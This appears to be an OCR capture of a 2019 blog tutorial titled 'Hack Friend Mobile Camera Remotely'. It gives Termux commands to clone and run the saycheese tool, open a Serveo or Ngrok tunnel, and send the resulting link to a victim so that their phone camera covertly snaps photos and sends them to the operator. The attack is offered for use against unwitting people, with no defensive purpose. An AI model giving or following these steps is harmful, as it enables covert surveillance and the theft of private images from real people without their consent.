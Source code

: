 # ANONUMOUS
I tech how tobe a hacker

Hack Friend Mobile Camera Remotely 
By Tarun Saini  - June 22, 2019
Hy Guys, many person wants to know how can 
they hack friends mobile camera remotely . 
So here is full guide of hacking friends mobile camera. 
You need to install Termux Application in your android device. 
Here is an basic guide of Termux Usage. If you have termux already 
in your android device then you can move further .

How to Hack Friend Mobile Camera Remotely

1. Open Termux Application
2. Enter below commands

apt update && apt upgrade
pkg install git

Read Also Customize Termux Screen In Own Style

pkg install openssh
git clone https://github.com/thelinuxchoice/saycheese
cd saycheese
bash saycheese.sh


3. Now tool will be start and it ask you for
 port selection{Serveo & Ngrok}
4. Press 1 to select Serveo
5. After that, it will ask you for subdomain.
 type here n 
6. Now a link will appear in your screen.
 copy that link and send it to your friend.
7. When your friend open this link his
 mobile capture his pic and send it to you.
8. Pic saved in saycheese directory. 
9. if you facing a error in using Serveo 
then you can use Ngrok


if you facing any problem then comment below. i will see you in next article.
